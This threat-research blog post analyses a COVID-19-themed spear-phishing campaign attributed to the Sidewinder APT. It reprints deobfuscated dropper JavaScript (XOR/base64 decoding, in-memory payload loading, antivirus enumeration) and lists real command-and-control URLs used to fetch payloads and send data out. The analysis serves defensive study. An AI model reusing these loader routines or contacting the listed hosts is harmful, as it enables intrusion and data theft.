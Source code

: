 ```yaml
---
layout: post
title: "Sidewinder: COVID-19 Themed Attack Campaign"
date: 2020-04-10 06:00:00 +0530
categories: ["threatresearch"]
tags: ["sidewinder","rattlesnake","india","pakistan","covid19","apt"]

---
```


Cyber-criminals and nation-backed threat actors are highly utilizing the COVID-19 pandemic as a lure to gain access to critical infrastructure inside organizations.

## Background
Sidewinder a.k.a Rattlesnake is believed to be an Indian state-backed APT group. The threat group actively conducts operations targeting military and government infrastructure in Pakistan and China and is believed to be operating since 2012.

## Source of Discovery
The malware sample discovery belongs to the [__RedDrip__](https://twitter.com/RedDrip7) Team who shared two VirusTotal reports.

- [__966029e.hta__](https://www.virustotal.com/gui/file/3d5f133790f807270f6a64743cb593673f820bca4aba406ee08fda1429a340bd/detection)
- [__Cb2e3e0[1].hta__](https://www.virustotal.com/gui/file/d302e75752341090fcc9a04bdf8ae8300cc4746b2c4abf7539daafaae275c1f0/detection)

and an individual researcher [__Timele12138__](https://twitter.com/Timele9527) who shared two spearphishing documents.

- [__Pak_Army_Deployed_in_Country_in_Fight_Against_Coronavirus.pdf.lnk__](https://www.virustotal.com/gui/file/9b0b837e2c4c06c0754824282b9f39dab7ab5681ff118ca6a6f6e548df13dfd2/detection)
- [__Additional_CSD_Rebate.pdf.lnk__](https://www.virustotal.com/gui/file/f8b053e32eed9a5e814c89eec50e743a906f1aadc7a6f58e25f0410863c5ec4a/detection)

## Intrusion Point
The initial intrusion point of the attack is a spear-phishing email sent to the target and contains exploit CVE-2017-11882 as RTF object. The email contains an executable .lnk file that fakes itself as a PDF. The victim tries to open the PDF and the malicious .lnk file unintentionally gets executed.

<div><center><img src="/assets/img/posts/2020-04-21-lnk-file.png" title="Spear-Phishing .lnk File"></center></div>
<br>
The malicious .lnk file contains the address of command and control domain. As soon as the file is executed, the embedded command is executed which downloads the stage-1 .hta dropper from `http://www.nrots.net/images/5328C28B/15936/11348/7c8d64e9/e17e25e`.

## Malware Analysis
The malware dropper 966029e.hta contains highly obfuscated JavaScript code which can be divided into 4 blocks for understanding. Each block of code is meant for different purposes during the first phase of attack.

### Decryption Block
The very first function is meant for decoding any base64 string passed to it. The second function consumes an XOR key and a base64 string resulting in decrypted payload. The third function takes a base64 string and sends it to the second function to XOR with a key that is stored in the variable "keeee". Doing an XOR of the hardcoded base64 string "fGNWc3tkXnB0Zg==" with the hardcoded key "MUgF" results in the value of keeee "1615619693" which will be used to de-obfuscate the embedded payload.

```javascript
function YiJr(str){
    var b64 = "ABCDEFGHIJKLMNOPQRSTUVWXY"+"Zabcdefghijklmnopqrstuvwxyz0123456789+/="
    var b, result = "",
       r1, r2, i = 0;
    for (; i < str.length;) {
        b = b64.indexOf(str.charAt(i++)) << 18 | b64.indexOf(str.charAt(i++)) << 12 |
            (r1 = b64.indexOf(str.charAt(i++))) << 6 | (r2 = b64.indexOf(str.charAt(i++)));
        result += r1 === 64 ? vLpfue(b >> 16 & 255) :
            r2 === 64 ? vLpfue(b >> 16 & 255, b >> 8 & 255) :
            vLpfue(b >> 16 & 255, b >> 8 & 255, b & 255);
    }
    return result;
    };
function xStrAmh (key, bytes){
    var res = [];
    for (var i = 0; i < bytes.length; ) {
        for (var j = 0; j < key.length; j++) {
            res.push(vLpfue((bytes.charCodeAt(i)) ^ key.charCodeAt(j)));
            i++;
            if (i >= bytes.length) {
                j = key.length;
            }
        }
    }
    return res.join("")
}
function rBEokCwZ(bsix){
    return xStrAmh(keeee,YiJr(bsix))
}
var keeee = xStrAmh("MUgF",YiJr("fGNW"+"c3tk"+"XnB0"+"Zg=="));
```

### Memory Writing Block
The decryption block decrypts the embedded binary which is loaded into the memory by the memory writing block of the JS script. The following code was decrypted using the functions from the decryption block:

```javascript
function Func4(b) {
    var enc = new ActiveXObject1("System.Text.ASCIIEncoding");
    var length = enc["GetByteCount_2"](b);
    var ba = enc["GetBytes_4"](b);
    var transform = new ActiveXObject1("System.Security.Cryptography.FromBase64Transform");
    ba = transform["TransformFinalBlock"](ba, 0, length);
    var ms = new ActiveXObject1("System.IO.MemoryStream");
    ms.Write(ba, 0, (length / 4) * 3);
    ms.Position = 0;
    dash = ms;
}
```

### Enumeration Block
The enumeration block enumerates the victim machine in an attempt to find the current version of .NET framework installed on it. The following code was decrypted using the functions from the decryption block:

```javascript
var shells = new ActiveXObject1("WScript.Shell");
function tPYpmq(){
    var net = "";
    var FSO = new ActiveXObject1("Scripting.FileSystemObject");
    var folds = FSO.GetFolder(FSO.GetSpecialFolder(0)+"\Microsoft.NET\Framework\ ").SubFolders;
    e = new Enumerator(folds);
    var folder;
    e.moveFirst();   
    while (e.atEnd() == false)  
    {  
        folder = e.item();
        var files = folder.files;
        var fileEnum = new Enumerator(files);
        fileEnum.moveFirst(); 
        while(fileEnum.atEnd() == false){
        if(fileEnum.item().Name == "csc.exe")
        {
            if(folder.Name.substring(0,2)=="v2")
                return "v2.0.50727";
            else if(folder.Name.substring(0,2)=="v4")
                return "v4.0.30319";
            }
            fileEnum[moveNext](); 
        }
        e[moveNext]();
    }
    return folder.Name;
}
ver = v2.0.50727;
try {
    ver = Func5();
} catch(e) { 
    ver = "v2.0.50727";
}
```

### CnC Block
The CnC block collects information about installed anti-virus software and its current status of updates on the victim machine. This information is then used to craft a URL ```http://www.d01fa.net/plugins/16364/11542/true/true/``` to communicate with the command and control server and download the related payload.

```javascript
shells.Environment("Process")(COMPLUS_Version) = ver;;
    var objWMIService = GetObject("winmgmts:\\.\root\SecurityCenter2");
    var colItems = objWMIService.ExecQuery("Select * From AntiVirusProduct", null, 48);
    var objItem = new Enumerator(colItems); 
    var x = "";
    for (; !objItem.atEnd(); objItem[moveNext]()) {
    x += (objItem.item().displayName + " " + objItem.item().productState).replace(" ", "");
    }
    var stm = Func4(so.split(".").join(''));
    var fmt = new ActiveXObject1("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter");
    var al = new ActiveXObject1("System.Collections.ArrayList");
    var d = fmt["Deserialize_2"](dash);
    al.Add(undefined);
    var o = d["DynamicInvoke"](al.ToArray())["CreateInstance"](ec);
    if(x && x.length){
        x = x + "_stg1";
    }
    var aUrl = "http://www.d01fa.net/plugins/16364/11542/true/true/"+x;
```

### Embedded Binary & Decoy
Within the dropper, two variables contain huge encrypted strings. One of the variables contains the stage-2 binary that is decrypted and written directly into the memory. The second variable contains content of a decoy PDF which is decrypted and shown to the victim. Analysis of the binary embedded in the former variable reveals its original name as ___LinkZip.dll___. The binary is a [__DotNetToJScript__](https://github.com/tyranid/DotNetToJScript) converter written by [James Forshaw](https://twitter.com/tiraniddo).

<div><center><img src="/assets/img/posts/2020-04-21-embedded-binary.png" title="Embedded DotNetToJScript Binary"></center></div>
<br>
The dropper also downloads a variant of the malware named [file.hta](https://www.virustotal.com/gui/file/34ab2e72624e808efa66cccb9ea2ec086b02927165dfc00d477cf573ffff2761/detection) for persistence. The decryption mechanism of the __file.hta__ is the same as the .hta dropper and is responsible for dropping the following binaries `C:\ProgramData\`

- [__Duser.dll__](https://www.virustotal.com/gui/file/c69456894fb70e6dfb4ef38bc926f8fc90a82a7b9427f429581a7cee22e09411/detection) - XOR decryptor for file containing the RAT
- SOHYXY.tmp - Encrypted payload decrypted by Duser.dll
- rekeywiz.exe - Windows legit binary
- rekeywiz.conf - configuration file for rekeywiz.conf

_Duser.dll_ decrypts the file named _"SOHYXY.tmp"_ and deploys the RAT for performing reconnaissance on the victim machines. The commands issued by the C2 server are stored in an encrypted file named [__font__](https://www.virustotal.com/gui/file/5e20dcef43ed82e97b881220f0e6971af364874f42849cea6e90030ebbd69f6c/detection). After decryption using the already discussed methodology, the C2 commands are revealed indicating that the stolen information is sent to `cloud-apt.net`
<br>
<br>

---
[___IOCs and YARA Signatures___](https://github.com/Ebryx/IOCs/blob/master/SideWinder/yara.yar)
